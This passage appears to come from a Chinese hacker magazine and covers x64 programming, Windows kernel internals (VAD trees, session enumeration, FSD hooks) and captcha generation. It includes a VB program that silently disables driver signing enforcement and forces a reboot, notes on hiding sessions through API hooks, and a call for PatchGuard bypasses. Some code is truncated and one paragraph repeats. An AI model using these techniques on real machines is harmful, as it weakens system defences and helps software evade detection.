| R9 | 易失的 | 第四个整型参数 |
| R10:R11 | 易失的 | 调用方临时；syscall/sysret 使用 |
| R12:R15 | 非易失的 | 必须由被调用方保留 |
| RDI | 非易失的 | 必须由被调用方保留 |
| RSI | 非易失的 | 必须由被调用方保留 |
| RBX | 非易失的 | 必须由被调用方保留 |
| RBP | 非易失的 | 可作帧指针；必须由被调用方保留 |
| RSP | 非易失的 | 堆栈指针 |
| XMM0 | 易失的 | 第一个 FP 参数 |
| XMM1 | 易失的 | 第二个 FP 参数 |
| XMM2 | 易失的 | 第三个 FP 参数 |
| XMM3 | 易失的 | 第四个 FP 参数 |
| XMM4:XMM5 | 易失的 | 视需要由调用方保留 |
| XMM6:XMM15 | 非易失的 | 视需要由被调用方保留 |

自从 VB 6 以后，VB 就不再支持指针了。在 32 位环境下，还可以利用 `msvbvm60.dll` 的导出函数 `VarPtr` 在 VB 2008 中使用指针，但是 `msvbvm60.dll` 是 32 位的 DLL，不能加载到 64 位的进程中，所以我们有必要自己实现一下 `VarPtr`。

新建一个 MFC DLL 工程，编写函数 `VarPtr` 和 `VarFromPtr`，代码如下：

```c
UINT64 VARPTR(UINT64 x)
{
    return x;
}

INT64 VARFROMPTR(INT64* x)
{
    return *x;
}
```

之后编写 `.def` 文件用于导出符号：

```def
LIBRARY "VCVARPTR"
EXPORTS
VARPTR
VARFROMPTR
```

在 VB 2008 中声明一下这两个函数，就能使用指针了！注意要故意把 `VarPtr` 声明为 `ByRef`（传址），这样才能让 VC DLL 得到变量的地址。

```vb
Public Declare Function VarPtr Lib "VCVARPTR.DLL" Alias "VARPTR" (ByRef X As Long) As Long
Public Declare Function VarFromPtr Lib "VCVARPTR.DLL" Alias "VARFROMPTR" (ByVal X As Long) As Long

Sub VarPtrTest()
    Dim q As Long = 654321
    Dim pq As Long = 0
    Dim w As Long = 0
    pq = VarPtr(q)
    w = VarFromPtr(pq)
    MsgBox(w)
End Sub


```

最后讲讲怎么编译 64 位程序。以 VC2008 为例，首先打开工程“属性”页，选择“配置管理器”，选择“活动平台解决方案为 x64”，如图 6 所示。VB 里也类似，不过直接在菜单栏选择就行了，如图 7 所示。
图 6
图 7

运行一下刚才编译的程序，并在任务管理器里看效果，如图 8 所示。对比一下“WORD”的进程，我们的程序（`VBCALLER.exe`）没有“*32”标志。

##### 64 位驱动程序的编写

提到 64 位驱动程序，不得不提一下 64 位系统的内存和地址空间。尽管 64 位处理器的最大理论寻址能力为 16EB（2^64 字节），但实际上 Win64 只支持 16TB（2^44 字节）的内存。这个原因有很多，感兴趣的读者请自己搜索。
图 8

与 Win32 中一样，可寻址范围分为用户模式区和内核模式区。每个进程都在底部获得其唯一的 8TB，而内核模式的代码存在于顶部的 8TB 中，并由所有进程共享。不同版本的 64 位 Windows 具有不同的物理内存限制，如表 3 和表 4 所示。

###### 表 3

| 项目 | 32位模式 | 64位模式 |
|---|---|---|
| Total virtual address space (based on a single process) | 4GB | 16TB |
| Virtual address space per 32-bit process | 2GB（/3GB 可到 3GB） | 4GB（启用 /LARGEADDRESSAWARE，否则 2GB） |
| Virtual address space per 64-bit process | Not applicable | 8TB |
| Paged pool | 470MB | 128GB |
| Non-paged pool | 256MB | 128GB |
| System Page Table Entry (PTE) | 660~900MB | 128GB |

###### 表 4

| 物理内存与 CPU 限制 | 32位模式 | 64位模式 |
|---|---|---|
| Windows XP Professional | 4GB（1~2 CPUs） | 128GB（1~2 CPUs） |
| Windows Server 2003, Standard Edition | 4GB（1~4 CPUs） | 32GB（1~4 CPUs） |
| Windows Server 2003, Enterprise Edition | 64GB（1~8 CPUs） | 1TB（1~8 CPUs） |
| Windows Server 2003, Datacenter Edition | 64GB（8~32 CPUs） | 1TB（8~64 CPUs） |

同样，与 Win32 中一样，x64 页大小为 4KB。前 64KB 的地址空间始终不映射，因此最低有效地址应是 `0x10000`。与在 Win32 中不同，系统 DLL 在用户模式的地址范围顶部附近没有默认的加载地址。相反，它们在 4GB 内存空间以上加载，通常在 `0x7FF00000000` 附近的地址上加载。32 位系统下内核的版图是大家有目共睹的，DKOM、Inline Hook、FSD Hook 等手法粉墨登场，还有就是调用一些非微软文档化的函数或者使用一些非常规手法，比如用 `KiInsertQueueApc` 杀线程、用 `CmDeleteKey` 删除键值、发送 IRP 删除文件等。为了防止 32 位系统的悲剧重演，微软在 x64 上给了两个重要限制：一是没有经过“交叉签名”的驱动禁止加载到内核；二是著名的 PatchGuard（禁止修改任何内核数据，一旦发现立即蓝屏）。

不过第一个限制仍可通过 `bcdedit /set testsigning on` 解除。经测试，无论 32 位程序还是 64 位程序，都可以加载未签名的 64 位驱动程序（还需要关闭 UAC）。

编译时也要注意：较老的 DDK 已无法编译可在 Windows 7 x64 上加载的驱动，至少需要 WDK 6000（文中推荐 WDK 7600）。环境选择应为 `x64 Checked Build Environment`。很多 32 位驱动源码可直接编译为 64 位驱动，但含内嵌汇编的驱动通常不行，因为 32/64 汇编差异较大。

调试输出可用 DebugView（文中提到 4.76 版本），并启用 `Capture Kernel` 与 `Enable Verbose Kernel Output`。另外 32 位 WinDbg 无法在 64 位系统工作，需要 64 位 WinDbg。Windows 7 x64 不支持 LKD，通常需用 `bcdedit /debug on` 重启后调试。为方便切换“驱动强制签名”和“调试模式”，文中给出 VB 2008 示例程序。

```vb
Private Declare Function RtlAdjustPrivilege Lib "ntdll" (...)
Private Declare Function NtShutdownSystem Lib "ntdll" (...)

Sub Main()
    Dim fw As Integer
    If MsgBox("是否要禁用驱动强制签名？", MsgBoxStyle.Question + MsgBoxStyle.YesNo, "ByPassDrvMustBeSigned") = MsgBoxResult.Yes Then
        Shell("cmd /c bcdedit/set testsigning on", AppWinStyle.Hide)
    Else
        Shell("cmd /c bcdedit/set testsigning off", AppWinStyle.Hide)
    End If
    If MsgBox("是否允许启用本地内核调试？", MsgBoxStyle.Question + MsgBoxStyle.YesNo, "ByPassDrvMustBeSigned") = MsgBoxResult.Yes Then
        Shell("cmd /c bcdedit/debug on", AppWinStyle.Hide)
    Else
        Shell("cmd /c bcdedit/debug off", AppWinStyle.Hide)
    End If
    If MsgBox("现在重新启动？", MsgBoxStyle.Question + MsgBoxStyle.YesNo, "ByPassDrvMustBeSigned") = MsgBoxResult.Yes Then
        RtlAdjustPrivilege(19, 1, 0, fw)
        NtShutdownSystem(1)
    End If
End Sub
```

重启后可在桌面下方看到“测试模式”。开启内核调试后，可看到类似：

`Kernel base = 0xfffff800\`03e04000    PsLoadedModuleList = 0xfffff800\`04041e50`

中间的反引号把地址分成两个 `ULONG`，可组合成一个 `UINT64`。下文给出小程序把这种表示法转换为 `UINT64`。

```vb
Private Declare Sub RtlMoveMemory Lib "ntdll" (...)
Private Declare Sub MovMem Lib "ntdll" Alias "RtlMoveMemory" (...)

Private Sub Button1_Click(...) Handles Button1.Click
    Dim n1 As String, n2 As String, fh As Integer
    Dim l1 As Integer, l2 As Integer, i As Integer
    Dim bt(7) As Byte, f As Long

    fh = InStr(1, Text1.Text, "`")
    ' 分离第一个 UINT32
    n1 = Mid$(Text1.Text, 1, fh - 1): l1 = Val("&H" & n1)
    ' 分离第二个 UINT32
    n2 = Mid$(Text1.Text, fh + 1, 8): l2 = Val("&H" & n2)
    ' 把两个 UINT32 复制到字节数组
    RtlMoveMemory(bt(0), l1, 4)
    RtlMoveMemory(bt(4), l2, 4)
    ' 合成 UINT64
    MovMem(f, bt(0), 8)
    MsgBox(Hex(f), "UINT64")
End Sub
```

其中 `Text1` 是文本框，用来接收输入数据（不带 `0x` 前缀）。开头两行声明了同一个函数（VB 2008 不支持指针，需重复声明）。之后可继续分析相关函数，并能发现与 32 位系统的显著差异。

```asm
lkd> u PspTerminateThreadByPointer
nt!PspTerminateThreadByPointer:
fffff800`0415c254 48895c2408    mov qword ptr [rsp+8],rbx
fffff800`0415c259 48896c2410    mov qword ptr [rsp+10h],rbp
fffff800`0415c25e 4889742418    mov qword ptr [rsp+18h],rsi
fffff800`0415c263 57            push    rdi
fffff800`0415c264 4883ec40      sub     rsp,40h
fffff800`0415c268 f6814804000040 test    byte ptr [rcx+448h],40h
fffff800`0415c26f 418af0        mov     sil,r8b
fffff800`0415c272 8bea          mov     ebp,edx


```

32 位系统下 `PspTerminateThreadByPointer` 函数的前 2 个字节是 `8B FF`（无意义指令），而 64 位系统下 `PspTerminateThreadByPointer` 函数的指令都是有意义的。

本来还想说一下对 PatchGuard 的看法，但是因为做的实验比较少，所以还是暂时不说了，以免出现差错。如果我想到破解 PatchGuard 的方法，会第一时间发到《黑客防线》上的，如果有谁想到破解 PatchGuard 的方法，也请不吝发文与我们共享。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、驱动、内存管理

##### 浅谈用户空间的内存管理
文/图 Cxs_cqupt、rt_cqupt

学过内存管理的都知道，Windows 将一个进程的地址空间分为上下两部分，高半部分为系统地址空间，低半部分为用户地址空间。32 位系统如果用户没有设置 3GB 开关的话，则系统地址空间与用户地址空间各占 2GB。

所谓用户空间，是指 CPU 运行于用户态时所访问的虚拟地址范围。用户空间属于进程，不像系统空间被所有进程共享。每个进程都用同样的用户空间地址范围，但对这个范围的使用则各不相同。另外，Windows 内存管理器是按照一种按需换页的方式来将页面映射到内存中的。它要等到要访问一个地址的时候才从磁盘获取该页面的数据，并映射到内存；而且内存管理器也用同样的方法来管理进程的页表。

内存管理器维护了一组数据结构，用以跟踪和记录进程用户地址空间哪些虚拟地址被保留了，哪些还没有被保留。这些数据结构称为 VAD（Virtual Address Descriptor），并组织成 AVL 树保存，以便提高查找效率。

当进程保留一段地址空间或者映射一个 section 的 view 的时候，内存管理器会创建一个 VAD 来描述本次内存请求的所有信息，比如保留范围、共享或者私有，以及相应的保护属性。前面提到了保留一个地址空间，下面落实到访问。当第一次访问保留的地址时，内存管理器自动创建一个 PTE（页表项）。在创建 PTE 的时候会查找负责这个地址的 VAD 并把相应的属性填入 PTE，并建立起虚拟内存页面的映射。所以保留一个虚拟地址范围，我们并不能立即访问，需要提交相应的物理页面，建立虚拟内存页面到物理页面的映射才能使用。

原理介绍得差不多了，下面我们看看 Windows 到底是怎么管理这些 VAD 的。进程控制块 `EPROCESS` 中有一个指针 `VadRoot`，根据 reactos 的定义，它指向一个 `MMADDRESS_SPACE` 的结构，其定义如下：

```c
typedef struct _MMADDRESS_SPACE{
    PMEMORY_AREA MemoryAreaRoot;
    PVOID LowestAddress;
    struct _EPROCESS *Process;
    PUSHORT PageTableRefCountTable;
    ULONG PageTableRefCountTableSize;
} MMADDRESS_SPACE, *PMMADDRESS_SPACE;
```

但是在用 WinDbg 探索的过程中却又不是那么回事。我采用 System 进程做实验，其 VAD 数只有 4，如图 1 和图 2 所示。

```text
lkd> !process 81bbb830
PROCESS 81bbb830 SessionId: none Cid: 0004
    DirBase: 02140000 ObjectTable: e1002e40
    Image: System
    VadRoot 81bb71e0 Vads 4 Clone 0 Private 3
```

图 1

图 1 通过 `!process` 命令得到了 `VadRoot`，图 2 通……通过“!vad”命令得到所有的 VAD。由图可见，0x81bb71e0 这个地址本身也是一个 VAD。那么就与 ReactOS 有了出入，很明显 0x81bb71e0 指向的也不是一个 MADDRESS_SPACE。既然 ReactOS 不行，那再看看 WRK 能不能找到具体的定义。WRK 下的定义如下：

```c
lkd> !vad 81bb71e0
VAD      level      start      end
81bb71e0 ( 0)         1b        42
81ab6228 ( 2)         5d        5d
81ab6ae8 ( 3)         6d       15f
81bc8420 ( 1)      7c920     7c9b2
```

图2

```c
typedef struct _MMVAD {
  union {
    LONG_PTR Balance : 2;
    struct _MMVAD *Parent;
  } u1;
  struct _MMVAD *LeftChild;
  struct _MMVAD *RightChild;
  ULONG_PTR StartingVpn;
  ULONG_PTR EndingVpn;
  union {
    ULONG_PTR LongFlags;
    MMVAD_FLAGS VadFlags;
  } u;
  PCONTROL_AREA ControlArea;
  PMMPTE FirstPrototypePte;
  PMMPTE LastContiguousPte;
  union {
    ULONG LongFlags2;
    MMVAD_FLAGS2 VadFlags2;
  } u2;
} MMVAD, *PMMVAD;
```

但是 WinDbg 查出的结果跟这个也对不上号。我们对 0x81bb71e0 这个 VAD 使用 dd 命令会得到如图3所示的数据。

```c
lkd> dd 81bb71e0
81bb71e0  00000110 00000042 00000000 00000000
81bb71f0  81bc8420 04000000 81bb2430 e1000100
81bb7200  e1000290 40000000 0a140006 65576d4a
81bb7210  81bb82f8 80562ce0 00000000 00000000
81bb7220  00000000 00000000 00000000 00000000
81bb7230  80562ce0 00000000 00000000 00000000
81bb7240  00000000 00000000 00000000 00000000
81bb7250  00000000 00000000 00000000 00000000
```

图3

前8个字节正好与图2的 start 与 end 对上。由此可以猜测 VAD 的前8个字节是用来存放起始地址与结束地址的，其实就是用来描述一个范围。0x81bb71e0+0x10 处的 81bc8420 又出现在了图2中，由此可以联想到，是否 81bc8420 就是 0x81bb71e0 的一个子节点？

我们用一幅图来描述这个 VAD 树的组织。这个树只有4个节点，按照 AVL 树进行组织（树的左孩子始终小于右孩子）。AVL 树如图4描述，按层来看分4层，每层只有一个节点。第一层对应 0x81bb71e0 这个 VAD，第二层对应 81bc8420 这个 VAD，第三层对应 81ab6228 这个 VAD，第四层对应于 81ab6ae8 这个 VAD。

第二层对应 81bc8420 这个 VAD，第三层对应 81ab6228 这个 VAD，第四层对应于 81ab6ae8 这个 VAD。

图4

再对 81bc8420 这个地址做一个 dd 命令，得到如图5所示的输出。

```c
lkd> dd 81bc8420
81bc8420  0007c920 0007c9b2 81bb71e0 81ab6228
81bc8430  00000000 07100005 81871200 e1448b38
81bc8440  fffffffc 40000000 0a2d0006 44706341
81bc8450  00010108 00401000 5f534750 00000000
81bc8460  00000000 00000000 00000000 00000000
81bc8470  00000000 00000000 00000000 00000000
81bc8480  00000000 00000000 00000000 00000000
81bc8490  00000000 00000000 00000000 00000000
```

图5

对比图2、图4与图5可以确定，VAD+8之后的12个字节是3个指针，分别指向父节点、左孩子、右孩子。在这3个指针后是一个 ULONG 结构的 flags。这个结构是通过对多个 VAD 进行比较得出的，感兴趣的读者可以自己尝试。后来我又在 WRK 下发现了这个 flags 的定义，对比一下，差不多正确。下面给出遍历 VAD 的部分代码。

```c
NTSTATUS AVLTreeWalker(PMADDRESS_AREA Tree)
{
  if (Tree)
  {
    if (NT_SUCCESS(AVLTreeWalker(Tree->LeftChild)))
    {
      DbgPrint("[Strat]%x%X--[End]%x%X", Tree->StartingVpn, Tree->EndingVpn);
      DbgPrint("[CommitSize]%d", Tree->vadflags.CommitCharge);
      // vadflags 的后19位表示提交次数
      switch (Tree->vadflags.Protection)
      {
        case 0: DbgPrint("[ZERO_ACCESS]"); break;
        case 1: DbgPrint("[READONLY]"); break;
        case 2: DbgPrint("[EXECUTE]"); break;
        case 3: DbgPrint("[EXECUTE_READ]"); break;
        case 4: DbgPrint("[READWRITE]"); break;
        case 5:
          DbgPrint("[WRITECOPY]");
          break;
        case 6:
          DbgPrint("[EXECUTE_READWRITE]");
          break;
        case 7:
          DbgPrint("[EXECUTE_WRITECOPY]");
          break;
        default:
          DbgPrint("[Error]");
          break;
      }

      if (Tree->vadflags.PrivateMemory)
      {
        DbgPrint("Private");
      }
      else
      {
        DbgPrint("Mapped");
      }

      if (Tree->vadflags.VadType)
      // 表明 VAD 的类型，也可以认为是 VAD 的用途
      {
        DbgPrint("Exe");
      }

      if (NT_SUCCESS(AVLTreeWalker(Tree->RightChild)))
      {
        return STATUS_SUCCESS;
      }
    }
  }
  ...
  return STATUS_UNSUCCESSFUL;
}
```

```c
return STATUS_SUCCESS;
```

代码比较简单，就是对 AVL 树做一个中序遍历，并对每个 VAD 的一些属性做一些打印工作。图6是 WinDbg 下“!vad”命令与程序截图的对比。

图6

不过遗憾的是，我没有得出 VAD 的完整定义，因此本文给出的代码只能得到进程的所有 VAD。得到了所有的 VAD 就可以对 VAD 做一些简单的操作了，比如更改属性，或者令父节点或孩子节点为空。最后说明一下，本文的驱动代码在 WDK6001.18002+WinXP SP2 下编译通过，在 Windows XP SP2 上加载并成功实现。大家如果还有什么问题，欢迎来黑防论坛与我讨论，我的论坛 ID 是 cxs_coupt。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、Session

##### 浅议 Windows Session ID

文/图 magic dog

Windows 的 Session 是一个非常令人郁闷的东西，用错综复杂、包罗万象来描述也不是很过分。关于 Windows Session 机制的描述可以参看《Sessions, Desktops and Windows Stations》一文，地址为 http://www.cppblog.com/dawnbreak/articles/90278.html。

##### Session 链表的构造

如果我们能直接操作 Session 数据当然是最好的了，这就像我们直接操作进程在虚拟内存中的数据一样。同样的，如果能直接摘除链表上的 Session 记录，达到隐藏目的，也是很实用的（假如在内核中记录 Session 的是一个链表结构的话）。通过对 Windows 自身一些程序的反汇编，我们大致可以获得如图1所示的结果。这里面除了 WinStationQueryInformationW，全是未公开的 WinStation 函数。如果在 Ring3 上做隐藏，可以 Hook WinStationEnumerateW，顾名思义是枚举 Session。对于这些函数的 Hook 是很有价值的。在此基础上，我简单做了个终端服务管理器的 Hook，效果如图2所示。而正常运行时的终端服务管理器应该如图3所示。

图1

图2

图3

除此之外，WTS 系列的 API 也很值得关注，例如 WTSEnumerateSessions。它和 WinStationEnumerateW 的关系我倒是还没搞清楚，不过某些 Windows 自带工具也会用到它。再向下的话，便是 RPC、NdrClientCall2 了。

##### 如何得到 Session ID

对于过滤性的 Hook，得到 Session ID 是必须的。Session ID 的获取分为无针对性的枚举和针对性的获取。枚举的方式上面已经说得很清楚了，这里主要说说针对性的。假使要求是：获取当前用户的 Session ID。参考 API 有三个：WTSGetActiveConsoleSessionId、ProcessIdToSessionId 和 WTSQuerySessionInformation。现依次讨论其具体用法和实用场合。

- 1）WTSGetActiveConsoleSessionId

使用该函数时需要定义 _WIN32_WINNT 大于 0x0501 的值，这说明该函数必须在 Windows XP 以上使用。用法很简单，具体代码如下：

```c
DWORD a = WTSGetActiveConsoleSessionId();
wprintf(L"%d\n", a);
```

> “The WTSGetActiveConsoleSessionId function retrieves the Terminal Services session currently attached to the physical console. The physical console is the monitor, keyboard, and mouse. Note that it is not necessary that Terminal Services be running for this function to succeed.”

可惜的是它并不那么好用。尝试了几次输出都是 0，百思不得其解，又看 MSDN 说明。注意 physical 这个词，难道该函数只能得到与服务器直连的用户的 Session ID？（注：在 Windows XP、Windows 2003 中，Session0 表示计算机管理员或者 system。）总之，最后我还是放弃使用这个函数了。

- 2）ProcessIdToSessionId

下面是 MSDN 提供的例子，代码如下：

```c
bool fActiveSession = false;
DWORD dwSessionID = -1;
LPTSTR pData = NULL;
DWORD cbReturned = 0;
ProcessIdToSessionId(GetCurrentProcessId(), &dwSessionID);
printf("%d\n", dwSessionID);
if (WTSQuerySessionInformation(WTS_CURRENT_SERVER_HANDLE, dwSessionID, WTSConnectState, &pData, &cbReturned)
    && (cbReturned == sizeof(INT))) {
    fActiveSession = (*(INT*)pData == WTSActive) ? true : false;
}
WTSFreeMemory(pData);
```

注释中的“0 is 1st console session created on XP, 1 is 1st console session on Vista”这句话倒是没搞懂。因为 dwSessionID 初始化的值是无所谓的，通过 ProcessIdToSessionId 得到的值也的确是当前进程对应的 Session ID。从这里可以看出，我们可以通过指定进程来得到对应的 Session ID，而不只是自己的。

##### 3）WTSQuerySessionInformation

这个函数功能更为强大，使用也更为复杂，特别是最后一个参数让我都闷了半天。按照函数的定义，函数标准调用如下：

```c
DWORD size = MAX_PATH;
LPWSTR *pbuffer;
WTSQuerySessionInformation(WTS_CURRENT_SERVER_HANDLE,
    WTS_CURRENT_SESSION,
    WTSSessionId,
    pbuffer,
    &size);
ULONG p = *pbuffer;
wprintf(L"%d\n", p);
```

注意最后一个参数被定义为 OUT，而不是“IN, OUT”，所以我们的指针可以是空指针，执行函数后，函数自动将指向结果数据的地址返回给我们。所以最后一个参数也可以按如下方式使用：

```c
DWORD size = MAX_PATH;
LPWSTR pbuffer;
WTSQuerySessionInformation(WTS_CURRENT_SERVER_HANDLE,
    WTS_CURRENT_SESSION,
    WTSSessionId,
    &pbuffer,
    &size);
ULONG p = *pbuffer;
wprintf(L"%d\n", p);
```

- 前置知识：VC
- 关键词：编程、验证码、随机数

##### 图片验证码的随机实现详解

文/图 Winbo

当用户注册或登录网站时，为避免遭有意者以程序自动大量重复执行这类功能、增加系统无谓的负担，系统以随机数产生英文字母与数字元的验证码，以图片方式呈现。在用户输入数据送出前，需同时输入在图片中看到的验证码。系统在进行用户验证或数据验证的同时也需检查验证码是否相同，从而提高了系统的安全性。图1是一个典型的会员注册界面，图中的“PC8N”，就是一个典型的图片验证。

有兴趣的读者可能会问，这些图片验证码是如何实现的呢？在这些图片验证码背后，还隐藏着什么安全方面的玄机呢？要知道，一个图片验证码可不仅仅是几个数字那么简单。下面我们通过一个具体案例，对验证码的原理及过程进行详细的分析。

##### 就这么简单：轻松设计验证码图片

- 1. 打开 Visual Studio .NET 软件，建立一个 ValidateImage.ashx 文件，用来产生验证码图片。验证码类 ValidateImage 主要是完成验证码的生成任务，首先生成随机数，然后生成图片，最后写入 HTTP 输出流到页面。流程如图2所示。
- 2. 将此文件的相对路径赋给登录界面中的验证码 image 控件的图片链接地址。

图2

步骤3：如果产生的验证码图片不清晰，可点击该验证码图片本身或其旁边的“看不清楚、换个图片”标签来更换验证码图片。通过点击验证码图片本身或其旁边的“看不清，换一张”标签来刷新验证码图片，方便用户在验证码图片中字符模糊的情况下能够得到可识别的验证码字符。

步骤4：比较提交的字符和服务器端保存的该字符，比较是否一致。如果一致就继续，否则返回提示。

这是一个典型的生成步骤，看上去似乎很复杂，但使用起来却很简单。故事似乎告一段落了，不过，其中的很多隐形方法藏匿于表象之后，而这些方法恰恰又是验证码安全的重要机制。比如为什么验证码能够不断变化、随机生成呢？为了解开这个奥秘，下面来看看用来产生两位数的随机数分配的方法。

##### 玄机四：验证码伪随机数的生成过程

随机数一般通过物理现象产生，比如掷硬币、骰子、转轮、使用电子元件的噪音、核裂变等。这样的随机数发生器叫做物理性随机数发生器，它们的缺点是技术要求比较高。在实际应用中往往使用伪随机数就足够了。这些数列是“似乎”随机的，实际上它们是通过一个固定的、可以重复的计算方法产生的。计算机或计算器产生的随机数有很长的周期性。它们不真正地随机，因为它们实际上是可以计算出来的，但具有类似于随机数的统计特征。这样的发生器叫做伪随机数发生器。下面，我们来分析一下图片验证码中的随机数。

步骤1：查看随机数典型流程。首先看看典型的流程，学过 C 语言的读者应该不会陌生。如图3所示。

图3

步骤2：代码分析。产生随机数有多种不同的方法。这些方法被称为随机数发生器。随机数最重要的特性是：它所产生的后面的那个数与前面的那个数毫无关系。从其中摘录的代码如下：

```csharp
private string RndNum(int vCodeNum)
{
    // 收集验证码可以显示的字符集，以“,”分割
    string vChar = "1,2,3,4,5,6,7,8,9,a,b,c,d,e,f,g,h,i,j,k,l,m,n,p,q,r,s,t,u,v,w,x,y,z,A,B,C,D,E,F,G,H,J,K,L,M,N,P,Q,R,S,T,U,V,W,X,Y,Z";

    // 拆分到一个数组中
    string[] vcArray = vChar.Split(new Char[] { ',' });

    // 收集随机数
    string vNum = "";

    // 记录最后随机值，尽量避免同一随机数
    int temp = -1;
    Random rand = new Random();

    // 通过一个简单的算法，以确保不同的随机编号
    for (int i = 1; i < vCodeNum + 1; i++)
    {
        if (temp != -1)
        {
            rand = new Random((int)DateTime.Now.Ticks);
        }

        int t = rand.Next(55); // 获得随机数
        if (temp != -1 && temp == t)
        {
            // 如果获得随机数重复，然后递归调用
            return RndNum(vCodeNum);
        }

        temp = t; // 随机数中位数加1
        vNum += vcArray[t];
    }

    return vNum;
}


```

从上面的代码可以看出不少玄机。第3行收集验证码可以显示的字符集，以“,”分割，存放到字符串 vChar 中。第4行拆分字符串 vChar 到数组 vcArray 中。数组是一种数据结构，它包含若干相同类型的变量。

第5行定义类型为 string 的变量 vNum，用于收集随机数。第6行定义类型为 int 的变量 temp，并设置初始值为“-1”，用于记录最后随机值，尽量避免同一随机数。第7行生成一个随机数对象 rand。Random 类表示伪随机数生成器。伪随机数是以相同的概率从一组有限的数字中选取的。第8行通过一个简单的算法，以确保不同的随机编号。第12行初始化随机数类，使用指定的种子值初始化 Random 类的新实例。第14行获得随机数并赋值给整型变量 t。在第15、16行中，如果获得的随机数重复，则递归调用方法 RndNum。第19行将获得的随机数 t 赋予临时变量 temp。第20行获得数组 vcArray 的第 t 个字符并赋予字符串 vNum。第22行，返回生成的随机数。

步骤 3：生成随机数，并将其写入图像文件。流程如图 4 所示。
```csharp
13. for (int i = 0; i < 100; i++)
14. {
15.     int x = random.Next(Img.Width);
16.     int y = random.Next(Img.Height);
17.     g.DrawRectangle(new Pen(Color.LightGray, 0), x, y, 1, 1);
18. }
```

第 13 行，在背景的随机位置画图。第 15 行，返回一个小于所指定最大值的非负随机数。第 17 行，用方法 `Graphics.DrawRectangle(Pen, Single, Single, Single, Single)`，绘制由坐标对、宽度和高度指定的矩形。

```csharp
// 在 g 中映射验证码
19. for (int i = 0; i < vNum.Length; i++)
20. {
21.     int cindex = random.Next(6);
22.     int findex = random.Next(5); // 随机字体索引值
23.     Font f = new System.Drawing.Font(fonts[findex], 15, System.Drawing.FontStyle.Regular);
24.     Brush b = new System.Drawing.SolidBrush(c[cindex]);
25.     int ii = 4;
26.     if ((i + 1) % 2 == 0)
27.     {
28.         ii = 2;
29.     }
30.     g.DrawString(vNum.Substring(i, 1), f, b, 3 + (i * 12), ii);
31. }
32. ms = new MemoryStream();
33. Img.Save(ms, ImageFormat.Jpeg);
34. g.Dispose();
35. Img.Dispose();
36. return ms;
```

在上面的代码中，第 19 行在画布 g 中映射验证码。第 21 行为随机颜色索引值。第 22 行为随机字体索引值。第 23 行为随机生成字体。第 24 行随机生成颜色笔刷。第 26 行控制不在同一级别的验证码。第 30 行绘制验证码字符。方法 `Graphics.DrawString(String, Font, Brush, PointF, StringFormat)` 使用指定 `StringFormat` 的格式化属性，用指定的 `Brush` 和 `Font` 对象在指定位置绘制指定文本字符串。第 32 行生成内存流对象。第 33 行为 JPEG 图像的图像文件格式流。第 34、35 行回收资源。

步骤 4：实现上述流程的代码如下。

```csharp
01. public MemoryStream Create(out string vNum)
02. {
03.     vNum = RndNum(3);
04.     Bitmap Img = null;
05.     Graphics g = null;
06.     MemoryStream ms = null;
07.     System.Random random = new Random();
08.     Color[] c = { Color.Black, Color.Red, Color.DarkBlue, Color.Green, Color.Brown, Color.DarkCyan, Color.Purple };
09.     string[] fonts = { "Verdana", "Microsoft Sans Serif", "Comic Sans MS", "Arial", "宋体" };
10.     Img = new Bitmap((int)vNum.Length * 18, 32);
11.     g = Graphics.FromImage(Img);
12.     g.Clear(Color.White);
```

第 3 行，调用 `RndNum` 方法生成 3 位随机数，赋予变量 `vNum`。第 4 行，初始化位图对象 `Img`。第 5 行，初始化 `Graphics` 类。第 6 行，定义内存流 `ms` 并初始化为 `null`。第 7 行，生成随机数对象 `random`。第 8 行，定义颜色代码集合 `c`，用于随机显示验证码颜色。第 9 行，定义字体集合 `fonts`，用于随机显示验证码字体。第 10 行，初始化位图变量 `Img`。第 11 行，从新的图像对象生成图片。第 12 行，设置白色背景。

```csharp
// 在背景的随机位置画图


```

看到这里，你也许会感叹：“大千世界，玄机重重”。你也许还会感叹，图片验证码对于我们和平时吃饭穿衣一样，看似寻常，背后却有如此紧凑的安全保护流程。的确，了解了这些代码的来龙去脉，我们就会弄清网页图片验证码背后的秘密了。

前置知识：VC

关键词：编程、文件系统、链表
##### FSD Hook 实现文件行为监控

文/图 MT

文件是很多事件的源头，对文件进行监控可以使我们了解系统的更多细节，我们也可以通过监控特殊的文件目录，防止病毒入侵。文件系统过滤目的是截获 Windows 系统对文件的操作行为，比如创建文件、打开文件、读/写文件、重命名文件等。捕获对文件的操作并对其进行过滤可以实现许多重要功能，如检查文件是否中毒，对文件数据进行透明加密、数据备份、主动防御等。文件系统过滤最典型的三大应用是防毒软件的实时监控、文件透明加密和沙箱技术，而掌握了文件过滤技术，我们也可以自己实现这些应用。

目前文件过滤的实现方法主要有 SSDT Hook、FSD Hook 和 FSD Filter。如果只是对文件的某一个操作感兴趣，比如删除、隐藏文件，个人认为采用 SSDT Hook 来得简单快捷；但当我们要对文件的多个操作进行监控过滤时，采用 SSDT Hook 就显得太繁琐了，要 Hook 许多函数，势必会对系统的性能和稳定产生很大的影响，此时 FSD Hook 和 FSD Filter 就是首选。相比之下，FSD Hook 又比 FSD Filter 简单稳定，不需要深入掌握文件系统知识，本文就以 FSD Hook 抛砖引玉。

Windows 下文件系统主要有 NTFS 和 FAT32 两种，分别对应 ntfs.sys 和 fastfat.sys 驱动文件，这 2 个驱动都在 `C:\WINDOWS\system32\drivers` 目录下。每个驱动文件都会生成一个驱动对象 DriverObject，在驱动对象中设置 28 个 IRP 分发函数，这 28 个分发函数处理发送给文件系统的 IRP 操作。以下是这 28 个 IRP：

| 偏移 | 成员 | IRP |
|---|---|---|
| +5C | MajorFunction[9] | IRP_MJ_FLUSH_BUFFERS |
| +60 | MajorFunction[A] | IRP_MJ_QUERY_VOLUME_INFORMATION |
| +64 | MajorFunction[B] | IRP_MJ_SET_VOLUME_INFORMATION |
| +68 | MajorFunction[C] | IRP_MJ_DIRECTORY_CONTROL |
| +6C | MajorFunction[D] | IRP_MJ_FILE_SYSTEM_CONTROL |
| +70 | MajorFunction[E] | IRP_MJ_DEVICE_CONTROL |
| +74 | MajorFunction[F] | IRP_MJ_INTERNAL_DEVICE_CONTROL |
| +78 | MajorFunction[10] | IRP_MJ_SHUTDOWN |
| +7C | MajorFunction[11] | IRP_MJ_LOCK_CONTROL |
| +80 | MajorFunction[12] | IRP_MJ_CLEANUP |
